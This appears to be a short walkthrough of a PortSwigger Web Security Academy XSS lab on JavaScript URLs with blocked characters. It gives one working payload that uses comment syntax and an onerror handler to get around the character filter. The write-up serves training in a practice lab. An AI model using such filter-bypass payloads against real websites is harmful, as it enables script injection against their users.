 ## Welcome, my friend. Today we will start the [23. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked) in ```portswigger```
### Let's play this lab:


#### First, we navigate inside the browser




Ok, We will inject javascript code inside URL such as:

```
https://0a3a007404bb215c80394433009400b1.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

![Screenshot from 2024-08-11 02-54-43](https://github.com/user-attachments/assets/93bcf978-87cf-4120-b4be-d276b0668639)

![image](https://github.com/user-attachments/assets/107395fe-7282-4783-9733-7621cc7a35e7)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/15a03813-a959-4628-9018-708548137ba0" >
</p>
